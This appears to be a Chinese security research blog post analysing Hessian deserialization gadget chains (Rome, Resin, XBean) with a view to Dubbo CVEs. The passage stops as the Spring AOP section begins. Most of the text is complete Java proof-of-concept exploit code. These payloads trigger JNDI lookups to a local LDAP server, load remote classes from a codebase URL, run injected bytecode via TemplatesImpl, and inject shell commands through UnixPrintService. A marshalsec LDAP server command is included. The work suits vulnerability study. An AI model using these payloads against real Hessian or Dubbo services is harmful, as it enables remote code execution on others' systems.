# 前言

最近在看Dubbo的反序列化的时候，虽然提到了Http协议相关的内容，但是呢，对于Hessian协议的利用貌似更加重要，而Hessian中又存在诸多利用链，所以说，还是先来吧利用链看了再去看Dubbo的相关CVE吧

# Hessian序列化和反序列化

在hessian中，提供了HessianOutput和HessianInput两个类进行序列化和反序列化，hessian2中则是Hessian2Output和Hessian2Input

用法和平常一样，也是去调用其writeObject和readObject，初次之外，Hessian也支持了java对反序列化的规范，需要相关类实现Serializable接口

同时 Hessian 还提供了一个 `_isAllowNonSerializable` 变量用来打破这种规范，可以使用 `SerializerFactory#setAllowNonSerializable` 方法将其设置为 true，从而使未实现 Serializable 接口的类也可以序列化和反序列化

```
package Unser.Hessians;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;

public class Test {
    public static void main(String[] args) throws Exception{
        Person person = new Person();
        person.setAge(35);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(person);
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        Object person1 = hessian2Input.readObject();
        System.out.println(person1.toString());
    }
}
```



## 序列化流程分析

这里以Hessian2为例，来看看Hessian2Output的writeObject



这个方法通过传入的object寻找指定的Serializer，实现类一共有29个针对各种类型的Serializer，如果是自定义类型的话，会指向一个UnsafeSerializer



`UnsafeSerializer#writeObject` 方法兼容了 Hessian/Hessian2 两种协议的数据结构，会调用 `writeObjectBegin` 方法开始写入数据，



这里的buffer和offset其实和和反序列化的时候是一样的（因为buffer和offser是保留在Output里面的，最后反序列化的内容也是从Output里面读出来的），第一次写数据的时候值为67，这次的值是96，可以先保留看看



`writeObjectBegin` 这个方法是 AbstractHessianOutput 的方法，Hessian2Output 重写了这个方法，而其他实现类没有。也就是说在 Hessian 1.0 和 Burlap 中，写入自定义数据类型（Object）时，都会调用 `writeMapBegin` 方法将其标记为 Map 类型。

但在Hessian2.0中，将会调用 `writeDefinition20` 和 `Hessian2Output#writeObjectBegin` 方法写入自定义数据，自定义类型就不再被标记为Map类型了

## 反序列化流程分析

接下来，我们再来看反序列化



这里有200多个case，tag可以看到是根据buffer和offset来得到的，首先是67




调用readObject后就变成了第二次设置的96了，其实这个只是他根据标识位和不同的数据类型以便进入相应的处理逻辑

在Hessian1.0中，因为自定义类型会被标记为Map，这里为使用的2.0，在Hessian2.0中提供了 `UnsafeDeserializer` 来对自定义类型数据进行反序列化，关键方法在 `readObject`处





断点一路可以跟过来，可以看到其实fields就是Person类中的name和age参数



`instantiate` 使用 unsafe 实例的 `allocateInstance` 直接创建类实例。

# 反序列化漏洞

可以看到，对于自定义类型，调用Hessian 协议使用 unsafe 创建类实例，使用反射写入值，并且没有在重写了某些方法后对其进行调用这样的逻辑，无论是构造方法、getter/setter 方法、readObject 等等方法都不会在 Hessian 反序列化中被触发

而造成漏洞的原因，是出现在Map类型的处理逻辑上



具体的流程分析留到下面的结合Rome链分析

目前常见的 Hessian 利用链在 [marshalsec](https://github.com/mbechler/marshalsec) 中共有如下五个：

- Rome
- XBean
- Resin
- SpringPartiallyComparableAdvisorHolder
- SpringAbstractBeanFactoryPointcutAdvisor

# Rome链

## 环境搭建

```
<dependency>
    <groupId>com.rometools</groupId>
    <artifactId>rome</artifactId>
    <version>1.7.0</version>
</dependency>
或者rome 1.0也可以
<dependency>
    <groupId>rome</groupId>
     <artifactId>rome</artifactId>
     <version>1.0</version>
</dependency>
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.62</version>
</dependency>
```

## 漏洞复现

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8081/#exp
```

```
package UnserTest;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class remotest {
    public static void main(String[] args) throws Exception {
        //反序列化时ToStringBean.toString()会被调用，触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
        String jndiUrl = "ldap://127.0.0.1:1389/exp";
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName(jndiUrl);
        rs.setMatchColumn("foo");

//反序列化时EqualsBean.beanHashCode会被调用，触发ToStringBean.toString
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);

//反序列化时HashMap.hash会被调用，触发EqualsBean.hashCode->EqualsBean.beanHashCode
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

//HashMap.put->HashMap.putVal->HashMap.hash
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.flushBuffer();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        System.out.println(new String(bytes, 0, bytes.length));
        // hessian2的反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

//        makeROMEAllPropertyTrigger(uf, JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(args[ 0 ]));
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```



其实对于HashMap里面的键值对，可以直接put进去就行

这种方式虽然能利用，但是在put的时候却会进行一次调用，所以更多的还是选择反射来控制hashmap中的Key，Value

## 利用链分析

前面在分析序列化和反序列化流程的时候提到，对于什么类型的数据，就会调用什么类型的Serializer，Hessian1.0对于自定义类型则会被标记为Map类型

对于Map类型的数据，在序列化的时候，只调用一次writeMapBegin





还是对标志位信息的设置

再来看反序列化吧


相关的处理逻辑来到的readMap方法



继续跟进到MapDeserializer的readMap方法


和之前的HashMap中的readObject方法类似，会调用到HashMap的put方法



这里的key值其实就是我们通过反射设置的key，即EqualsBean



调用了EqualsBean的hashCode，即rome相关的链子了



最后会调用到这个toString方法，之前在分析rome链的时候我们知道，这里是可以去调用任意的getter方法的，在FastJson中我们知道JdbcRowSetImpl的connect方法能进行一个JNDI注入，现在就只需要去找到，有没有相应的getter方法能调用这个connect方法



找到了一个getDataBaseMetaData方法

```
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```



```
public String getDataSourceName() {
    return dataSource;
}
```

通过setDataSourceName去设置dataSource的值

但是，光是这样并不能执行，是因为在调用getter方法的时候是通过迭代器调用的，存在一个getMatchColumnNames方法，如果不存在strMatchColumns的值的话，会抛出一个异常导致程序结束，所以我们还需要调用setMatchColumn去设置strMatchColumns



于是有了下面的poc（自己重新写了一遍）

```
package Unser.Hessians;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Payload {
    public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String payload = "ldap://127.0.0.1:1389/exp";
        jdbcRowSet.setDataSourceName(payload);
        jdbcRowSet.setMatchColumn("aaa");

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }
}
```

## 遇到的问题

确实都知道，在Rome链中，我们是去通过加载字节码的方式进行命令执行的，但是我把这里修改成TemplatesImpl类加载字节码的时候，却在这里报错了



在su18的文章中提到，HashMap 在 put 键值对时，将会对 key 的 hashcode 进行校验查看是否有重复的 key 出现，这就将会调用 key 的 hasCode 方法，如下图。



而 TreeMap 在 put 时，由于要进行排序，所以要对 key 进行比较操作，将会调用 compare 方法，会调用 key 的 compareTo 方法。






也就是说 Hessian 相对比原生反序列化的利用链，有几个限制：

- kick-off chain 起始方法只能为 hashCode/equals/compareTo 方法；
- 利用链中调用的成员变量不能为 transient 修饰（静态变量也不信）；(导致被`transient`修饰的`_tfactory`对象无法写入造成空指针异常)



- 所有的调用不依赖类中 readObject 的逻辑，也不依赖 getter/setter 的逻辑。

这几个限制也导致了很多 Java 原生反序列化利用链在 Hessian 中无法使用，甚至 ysoserial 中一些明明是 hashCode/equals/compareTo 触发的链子都不能直接拿来用。

### 二次反序列化

因为是调用getter方法，其实也可以去用java.security.SignedObject的getObject方法进行二次反序列化



这种方式就可以去不出网利用了，因为存在rome链，直接将rome链封装进去，用加载字节码的方式去进行一个不出网的利用

对于这个SignObject的构造方法



可以直接控制content，也可以通过反射去控制，直接控制的话就把rome最后构造好的hashmap封装进去就行

```
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
kpg.initialize(1024);
KeyPair kp = kpg.generateKeyPair();
SignedObject signedObject = new SignedObject(map, kp.getPrivate(),,Signature.getInstance("DSA"));
```

POC如下

```
package Unser.Hessians;

import Unser.Rome.GetTemplatesImpl;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class Payload2 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();
        EqualsBean bean = new EqualsBean(String.class, "");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa", templates);
        map1.put("bB", bean);
        map2.put("aa", bean);
        map2.put("bB", templates);
        HashMap map = new HashMap();
        map.put(map1, "");
        map.put(map2, "");

        setFieldValue(bean,"_beanClass", Templates.class);
        setFieldValue(bean,"_obj",templates);


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(map, kp.getPrivate(),Signature.getInstance("DSA"));
//        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
//        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
//        objectOutputStream.writeObject(map);
//        SignedObject signedObject = new SignedObject(new HashMap(), kp.getPrivate(), Signature.getInstance("DSA"));
//
//        setFieldValue(signedObject,"content",byteArrayOutputStream.toByteArray());

        ToStringBean toStringBean = new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.writeObject(s);
        hessian2Output.close();
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream1.toByteArray());
//        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
//        hessian2Input.readObject();
    }

        public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

```
package Unser.Rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.lang.reflect.Field;

public class GetTemplatesImpl {
    public static TemplatesImpl getTemplatesImpl() throws Exception{

        byte[][] bytes = new byte[][]{GenerateEvilByJavaassist.generate()};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);


        return  templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

```
package Unser.Rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

public class GenerateEvilByJavaassist {
    public static byte[] generate() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -a Calculator\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }


}
```

### 命令执行

在Y4师傅的博客中提到过使用UnixPrintService类去命令执行，在`sun.print.UnixPrintService`的所有get方法都能触发，别看这个是Unix其实linux也有，在高版本被移除(有兴趣自己考古)，利用方式就是简单命令拼接执行（缺点就是太能弹了，基本上每个get方法都能弹）

里面存在一个getAttributes的共有方法

```
Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
constructor[0].setAccessible(true);
UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");
unixPrintService.getAttributes();
```



接着跟进getQueedJobCount方法



跟进系统不同调用不同里面的getter方法


里面都可以调用execCmd执行命令



因为是用string数组的方式去命令执行，所以可以采用管道符进行分割以执行任意命令

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","ls;open -a Calculator"});
```

除此之外，这么多getter方法也不一定非要这样，也可以直接用反射去调用任意的getter方法，像CC1的invokeTransformer就可以直接调用这里的 getter方法去命令执行了

```
package Unser.Hessians;

import sun.print.UnixPrintService;
，
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class hhh {
    public static void main(String[] args) throws Exception{
        Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
        constructor[0].setAccessible(true);
        UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");
        Method method = unixPrintService.getClass().getDeclaredMethod("getQueuedJobCountAIX");
        method.setAccessible(true);
        method.invoke(unixPrintService,null);
    }
}
```

但是这里UnixPrintService并没有实现Serializable，在marshalsec中有具体的实现



这里就没有再去写poc了，之前在没有注意这个没有Unserializable接口的时候，写了一个，结果是从writeObject走过去的，



原来是因为没有实现这个接口而导致抛出异常最后调用到append，最后走到了ToStringBean的toString方法

不过，之前提到过同时 Hessian 还提供了一个 `_isAllowNonSerializable` 变量用来打破这种规范，可以使用 `SerializerFactory#setAllowNonSerializable` 方法将其设置为 true，从而使未实现 Serializable 接口的类也可以序列化和反序列化

其实只需要在序列化的时候加上

```
hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
```

所以最后poc如下

```
package Unser.Hessians.Rome;

import com.caucho.hessian.io.Hessian2Output;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import sun.print.UnixPrintService;

import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class unixPayload {
    public static void main(String[] args) throws Exception{

        Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
        constructor[0].setAccessible(true);
        UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");

        ToStringBean toStringBean = new ToStringBean(UnixPrintService.class,unixPrintService);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(s);
        hessian2Output.close();
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);

    }
}
```

# Resin

## 环境搭建

```
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>resin</artifactId>
    <version>4.0.53</version>
    <scope>provided</scope>
</dependency>
```



导入后获取的时候可能会报错找不到包，需要去把modules中的这个包的scope改成compile

## 漏洞复现

因为最后要去比较hash才能调用equals方法，对于不同类的控制略显麻烦，这里我就直接用Y4在Rome链中调用equals的方法了，在这里虽然会执行一遍，但是能得到序列化数据，反序列化的时候依然可行即可

```
package Unser.Hessians.Resin;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Payload3 {
    public static void main(String[] args) throws Exception{

        String codebase = "http://127.0.0.1:8081/";
        String clazz = "exp";

        Class ctx = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = ctx.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);


        Reference reference = new Reference("aaa",clazz,codebase);
//        setFieldValue(reference,"classFactory",clazz);
//        setFieldValue(reference,"classFactoryLocation",codebase);

        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe,"resolvedObj",reference);
//        cpe.setResolvedObj(reference);

        Context continuationContext = (Context) constructor.newInstance(cpe,new Hashtable());


        QName qName = new QName(continuationContext,"aa","bb");
//        ArrayList list = new ArrayList();
//        list.add("DawnT0wn");
//        list.add("hello");
//        setFieldValue(qName,"_items",list);
        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",qName);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",qName);
        HashMap map = new HashMap();
        map.put(map1,"");
        map.put(map2,"");

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```

如果想序列化的时候不弹计算器，那就用反射去修改键值对

```
package Unser.Hessians.Resin;

import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Payload3 {
    public static void main(String[] args) throws Exception{

        String codebase = "http://127.0.0.1:8081/";
        String clazz = "exp";

        Class ctx = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = ctx.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);


        Reference reference = new Reference("aaa",clazz,codebase);
//        setFieldValue(reference,"classFactory",clazz);
//        setFieldValue(reference,"classFactoryLocation",codebase);

        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe,"resolvedObj",reference);
//        cpe.setResolvedObj(reference);

        Context continuationContext = (Context) constructor.newInstance(cpe,new Hashtable());


        QName qName = new QName(continuationContext,"aa","bb");
//        ArrayList list = new ArrayList();
//        list.add("DawnT0wn");
//        list.add("hello");
//        setFieldValue(qName,"_items",list);
        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",qName);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",qName);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

## 利用链分析

我们知道了要去调用hashMap的put方法

```
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

在分析过这么多链子的情况下，我们知道在key值相同的时候可以去调用到equals方法，这里我们来关注到`com.sun.org.apache.xpath.internal.objects.XString` 的 `equals` 方法



调用了obj2的toString，这里如果有rome链的话其实也可以去打，用这里去调用ToStringBean的toString方法

不过这里我们来看com.caucho.naming.QName这个类的toString方法



```
public int size() {
    return this._items.size();
}
```

逻辑很简单，如果`_items`的size大于等于二就可以调用到`this._context`到composeName方法，`_items`是一个ArrayList



可以通过构造函数去添加，也可以通过反射添加一个大于等于2的ArrayList

接着看到javax.naming.spi.ContinuationContext的composeName方法，里面会调用getTargetContext



跟进getTargetContext



会调用NamingManger的getContext方法，cpe是一个CannotProceedException对象，里面的resolveObj这里都有相应的set方法设置，也可通过反射去设置，看了后面发现这里只需要设置resolveObj为Reference对象即可



跟进getObjectInstance



通过传进来的refInfo，其实就是之前的resolveObj的接口判断来获得一个Reference对象，再去获取Reference的classFactory，调用getObjectFactoryFromReference



先从本地加载，没有的话再获取Reference的classFactoryLocation，调用



```
ClassLoader cl =
         URLClassLoader.newInstance(getUrlArray(codebase), parent);
```

以上逻辑赋予了程序远程加载类的功能

# XBean

## 环境搭建

```
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.20</version>
</dependency>
```

## 漏洞复现

POC

```
package Unser.Hessians.XBean;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import javax.naming.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;

public class Payload {

    public static void main(String[] args) throws Exception{
        String codebase = "http://127.0.0.1:8082/";
        String clazz = "exp";

        Reference reference = new Reference("DawnT0wn",clazz,codebase);

        Class readonly = Class.forName("org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding");
        Constructor constructor = readonly.getDeclaredConstructor(String.class,Object.class,Context.class);
        Context context = new WritableContext();
        Object objects = constructor.newInstance("DawnT0wn",reference,context);

        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",objects);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",objects);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream1.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
//        Base64.Encoder base = Base64.getEncoder();
//        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
//        System.out.println(base64);
    }
    
}

```



## 漏洞分析

这条链其实和Resin链差不多，都是通过XString的equals方法开始的



触发的是 `ContextUtil.ReadOnlyBinding` 的 toString 方法（这个类本身没有toString方法，所以回去调用到其父类javax.naming.binding的toString方法）



这里会调用getObject方法



跟进这里的resolve方法



将传进来的value转换为Reference对象，通过其借口判断是否进入if，最后来到了和Resin链一样的NamingManager的getObjectInstance方法



后面的流程就是一样的了，但是在这里调用的时候，用InitialContext去得到context对象却抛出异常了，在调用getEnvironment的时候报错了，看师傅们的用的是WritableContext



# Spring AOP

## 环境搭建

下面两个的环境我就一起搭建了

```
<dependency>
